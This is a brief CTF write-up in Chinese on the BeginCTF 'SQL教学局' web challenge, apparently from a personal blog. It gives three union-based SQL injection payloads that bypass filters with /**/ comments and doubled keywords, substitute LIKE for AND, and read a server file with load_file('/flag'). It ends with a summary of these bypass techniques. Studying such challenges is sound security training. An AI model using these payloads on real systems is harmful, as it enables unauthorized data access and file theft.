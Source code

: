 ```yaml
---
title: BeginCTF-SQL教学局
category: CTF-Web-SQL
date: 2024-2-3
---
```


> source:[BeginCTF]SQL教学局

## info

![img](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

